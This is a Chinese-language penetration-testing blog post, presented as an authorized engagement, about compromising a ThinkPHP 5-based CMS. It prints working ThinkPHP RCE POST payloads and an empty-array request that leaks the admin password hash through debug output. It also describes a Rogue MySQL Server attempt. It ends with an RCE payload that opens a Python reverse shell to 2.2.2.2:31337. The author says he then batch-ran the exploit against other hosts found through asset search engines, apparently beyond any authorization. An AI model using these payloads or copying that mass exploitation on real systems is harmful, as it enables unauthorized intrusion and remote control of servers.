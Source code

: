 ```yaml
---
layout: post
title: "串联脆弱点实现外部打点"
tags: [Hacking, Pentest, Tricks]
comments: true
---
```


## 前言

> [#] Author: xxxeyJ   
> [#] Blog: https://tricksongs.com/

前段时间 homie 传给我一个授权项目，希望空了能帮忙看下，拿下目标的过程蛮曲折的，在这里记录一下 `心路历程`，由于打点时部分图片忘记保存，导致文章可能存在 `断层`，见谅；

## 肾透过程

目标是一个 IP 资产，主体服务运行在 `80` 端口上，由于是 IP 资产，且通过各种渠道无法逆推出其域名后 (很可能压根就没有域名解析到此IP) ，然后就打消掉了子域收集的念头，之后就是一套常规操作，端口扫描，对症下药；

## 信息收集

```
1.1.1.1:22	SSH服务	OpenSSH7.4protocol 2.0
1.1.1.1:888	Web服务	Nginx 中间件
1.1.1.1:3306	MySQL服务	MySQL5.7.29-log
1.1.1.1:80	Web服务	Nginx 中间件 反向代理
1.1.1.1:8888	Web服务	Ajenti HTTP Control Panel
```
`22` 端口和 `3306` 端口一般来说没什么好看的，基本无解，主要看一下3个基于 Web服务的端口:  `80`、`888` 、`8888`;

## 探索脆弱点

访问 80 端口重定向到了一个登陆页面，在 `http://1.1.1.1/` 后面随便添加一点垃圾数据, 直接爆出了 ThinkPHP 异常页面，目标启用了调试模式 (debug) 泄露了 ThinkPHP 版本号为 5.12，PHP 版本为 7.3，基于 ThinkPHP 框架二开的 CMS ；

检索了一下网络上的信息，发现关于此 CMS 的内容特别少，近乎没有，通过 FOFA、Zoomeye、SuMap、Quake 等网络空间搜索引擎检索目标资产特征，打算先搞到一份 CMS 的源码再进行下一步行动，结果事与愿违，抓下来的资产列表没有一个资产泄露CMS源码；

ThinkPHP 报错泄露了 Web 目录于 Linux 操作系统中的绝对路径:	`/www/wwwroot/1.1.1.1/`，基本信息差不多就这些，ThinkPHP Version <= 5.23 存在一个 `RCE` ，先朝目标怼了一波 Payload，最后的结果只有这一个 Payload 是可以执行的，原因很简单，有的 Payload 是因为不支持 GET 请求方法，还有的 Payload 无法执行是因为更改了路由，`think` 路由下的模块及日志文件均无法使用，然后就是目标禁用了N个`危险函数`，`Disable_functions` 列表如下: 

```
passthru,system,putenv,chroot,chgrp,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
```

看到这个列表蛮头疼的，但是发现好在没有禁用掉 assert 以及 file_put_contents 函数，于是尝试构造 Payload Getshell，但还是因为 PHP 版本过高不支持动态调用便无法 Getshell；

```
POST /

s=file_put_contents('info.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

当前仅可执行如下 Payload;

```
POST /

_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
```

由于目前无法通过 TP5 RCE 的途径 `Getshell`，于是开始尝试审计一下目标的功能点，首先是登录功能，截断一下发起的登录请求，经过测试发现，验证码 `可复用`，不过我并不打算尝试跑字典，这种方式太过无脑而且动静太大，性价比极低，除非万不得已，否则我一般不会走跑字典这条路子；

```
POST /user/index/login HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close

username=admin&password=admin&verify=3523
```

就在这时，我想到了之前和某师傅交流过 ThinkPHP 5.0.X 的一个小 `tricks`，在目标启用了 debug 模式下并通过敏感功能点传递空数组时可能会引起程序异常从而导致敏感信息泄露；

```
POST /user/index/login HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close

username=admin&password[]=&verify=5784
```

成功在 `Error Context` 栏目中拿到管理员的 `Password + Salt` 字段；

![](https://tricksongs.com/images/Hacking_Time/1.jpg)

MD5 解密后顺利登录后台面板，在后台操作的过程中有个功能点与后端产生了数据交互，于是构造一下 `空数组` 直接异常，看到源码之后，芜湖，原地起飞，就贼离谱，直接把 `凭据硬编码` 了，任意一个用户拿着这个密码都可以直接登录面板；

![](https://tricksongs.com/images/Hacking_Time/2.jpg)

后台的功能点蛮多的，但是各个上传点都做了白名单等安全限制，无法 Getshell，蛮遗憾的；

后面由于无法在 80 端口有所突破 ，于是又转到 8888 端口和 888 端口上面，8888 端口的首页是一个宝塔面板的禁止公网访问的提示；

![](https://tricksongs.com/images/Hacking_Time/3.PNG)

看到宝塔和 888 端口，就想起来前段时间的 `phpMyAdmin` 面板未授权访问漏洞，于是构造一下路径 `http://1.1.1.1:888/pma`，尝试访问提示不存在此路径，不巧，看来目标所使用的版本没有此漏洞，想到团队里面有开发宝塔产品的师傅，于是问了一嘴目前有没有宝塔 `前台RCE`，师傅说目前没有，墙裂建议下个版本可以安排一个团队专享版 `RCE` (狗头保命)；

![](https://tricksongs.com/images/Hacking_Time/4.PNG)

然后又对 888 端口和 8888 端口跑了一波字典，没有发现什么有价值的端点，而后又转到 80 端口上面来，先对 80 端口跑了一波字典，跑出来个 install 路径，于是打算尝试一下是否可以利用 `MySQL 文件读取漏洞` 读取目标机的敏感文件，首先判断一下目标程序是否可以对外发起请求，在 VPS 上面使用 nc 监听 3306 端口，然后使用 install 程序连接我的 VPS，发出请求后，VPS 成功接收到了来自目标主机的请求，顿时感觉有戏，于是部署了一下 `Rogue MySQL Server`，本来以为基本上可以结束掉游戏的时候，却突然发现目标禁用掉了MySQL 读取本地文件的功能；

## 收尾工作

当我回过头去看 `Disable_functions` 列表的时候，突然发现目标竟然没有禁用 `exec` ，之前竟然没有发现，我大意了啊，调试了一下 Payload，直接 RCE，然后写了个脚本批量跑了一下之前收集到的资产列表，收工结束；

```
POST /

_method=__construct&filter[]=exec&method=get&server[REWQUEST_METHOD]=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("2.2.2.2",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

## END

A.K.A 穿主流装喝骨头汤的斧头帮的楚留香在熬夜写文章

`Respect`
